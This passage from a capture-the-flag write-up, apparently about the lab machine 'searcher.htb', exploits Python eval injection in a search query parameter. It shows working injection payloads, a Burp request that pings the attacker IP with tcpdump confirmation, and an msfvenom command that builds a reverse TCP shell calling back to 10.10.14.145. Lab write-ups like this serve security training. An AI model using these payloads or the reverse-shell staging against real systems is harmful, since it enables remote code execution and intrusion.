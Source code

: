 The output:

`Engine.Accuweather.search(''),__import__('os').system('ping -c 4 0.0.0.0')#', copy_url=True, open_web=True)`

At this point we'll adjust the payload string as needed to have success locally in executing a command. We won't have the Engine library so we will replace this with a simple statement.

Performing the exploit locally:

```python
└─$ python3        
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.

>>> eval("print('test'),__import__('os').system('ping -c 4 0.0.0.0')#', copy_url=True, open_web=True)")
test
PING 0.0.0.0 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.029 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.032 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.048 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.031 ms

--- 0.0.0.0 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3049ms
rtt min/avg/max/mdev = 0.029/0.035/0.048/0.007 ms
(None, 0)
```

We formed a payload which successfully accomplishes command execution using the eval function

## Shell as svc

Utilizing Burp Suite, performing any search request in the browser and sending the request to repeater, we can modify the post data to be as follows, for a simple POC using ping

`engine=Accuweather&query='),__import__('os').system('ping -c 4 10.10.14.145')#`

We successfully receive the ping on our attacker machine

```console
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:22:32.321566 IP searcher.htb > 10.10.14.145: ICMP echo request, id 1, seq 1, length 64
17:22:32.321590 IP 10.10.14.145 > searcher.htb: ICMP echo reply, id 1, seq 1, length 64
...
```

Use msfvenom to create a stageless reverse tcp shell executable

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.145 LPORT=4444 -f elf -o reverse.elf
```

Host a web server where the file can be retrieved, and a nc listener on port 4444
